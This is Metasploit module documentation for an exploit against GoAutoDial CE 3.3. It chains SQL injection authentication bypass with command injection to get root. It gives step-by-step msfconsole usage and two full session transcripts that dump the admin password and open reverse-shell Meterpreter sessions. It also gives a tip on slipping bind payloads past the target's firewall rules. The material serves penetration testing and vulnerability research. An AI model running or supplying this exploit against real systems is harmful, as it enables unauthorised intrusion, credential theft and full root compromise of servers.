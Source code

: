 ## Description

This module exploits a SQL injection flaw and command injection flaw within GoAutoDial CE 3.3, which permits authentication bypass and a complete compromise of the underlying system with root privileges. This module also extracts the administrative users password from the underlying database. 

## Affected software

GoAutoDial 3.3 CE (32bit and 64bit) is available for download from goautodial.org. In order to download, register a free account then download the bootable ISOs. Both ISOs have been used for the dev of this. http://goautodial.org/attachments/download/3237/goautodial-32bit-ce-3.3-final.iso.html
Refer to: https://www.exploit-db.com/exploits/36807/

NOTE: GoAutoDial heavily restricts inbound traffic via iptables rules (and uses fail2ban, as well).  This can cause bind payloads to quietly fail.  For bind payloads, using ports which allow inbound connections but have no service running is ideal (ports 21 and 222 fall into this category for default GoAutoDial behavior).

## Verification

- Start `msfconsole`
- Do `use exploit/linux/http/goautodial_3_rce_command_injection`
- Do `set RHOST <IP>`
- Do `set LHOST <IP>`
- Do `set LPORT <PORT>`
- Do `run`
- Wait for shell

## Scenarios

### Targeting 64-bit GoAutoDial

```
msf > use exploit/linux/http/goautodial_3_rce_command_injection
msf exploit(goautodial_3_rce_command_injection) > set rhost 172.16.191.150
rhost => 172.16.191.150
msf exploit(goautodial_3_rce_command_injection) > check
[+] 172.16.191.150:443 The target is vulnerable.
msf exploit(goautodial_3_rce_command_injection) > set lhost 172.16.191.181
lhost => 172.16.191.181
msf exploit(goautodial_3_rce_command_injection) > run

[*] Started reverse TCP handler on 172.16.191.181:4444 
[*] 172.16.191.150:443 - Trying SQL injection...
[+] 172.16.191.150:443 - Authentication Bypass (SQLi) was successful
[*] 172.16.191.150:443 - Dumping admin password...
[+] 172.16.191.150:443 - Found credentials: admin|goautodial|Admin|||Y
[*] 172.16.191.150:443 - Sending payload...
[*] Command Stager progress -  68.67% done (798/1162 bytes)
[*] Sending stage (2854264 bytes) to 172.16.191.150
[*] Meterpreter session 1 opened (172.16.191.181:4444 -> 172.16.191.150:52876) at 2017-07-02 11:08:02 -0400
[*] Command Stager progress - 100.00% done (1162/1162 bytes)

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > sysinfo
Computer     : go.goautodial.org
OS           : CentOS 5.11 (Linux 2.6.18-407.el5)
Architecture : x64
Meterpreter  : x64/linux
```

### Targeting 32-bit GoAutoDial
```
msf > use exploit/linux/http/goautodial_3_rce_command_injection
msf exploit(goautodial_3_rce_command_injection) > set lhost 10.0.2.4
lhost => 10.0.2.4
msf exploit(goautodial_3_rce_command_injection) > set rhost 10.0.2.44
rhost => 10.0.2.44
msf exploit(goautodial_3_rce_command_injection) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf exploit(goautodial_3_rce_command_injection) > run

[*] Started reverse TCP handler on 10.0.2.4:4444
[*] 10.0.2.44:443 - Trying SQL injection...
[+] 10.0.2.44:443 - Authentication Bypass (SQLi) was successful
[*] 10.0.2.44:443 - Dumping admin password...
[+] 10.0.2.44:443 - Found credentials: admin|newpassword|Admin|||Y
[*] 10.0.2.44:443 - Sending payload...
[*] Command Stager progress -  78.66% done (796/1012 bytes)
[*] Sending stage (798104 bytes) to 10.0.2.44
[*] Meterpreter session 1 opened (10.0.2.4:4444 -> 10.0.2.44:49035) at 2017-07-07 15:49:48 -0500
[*] Command Stager progress - 100.00% done (1012/1012 bytes)

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > sysinfo
Computer     : go.goautodial.org
OS           : CentOS 5.10 (Linux 2.6.18-371.11.1.el5)
Architecture : i686
Meterpreter  : x86/linux
```
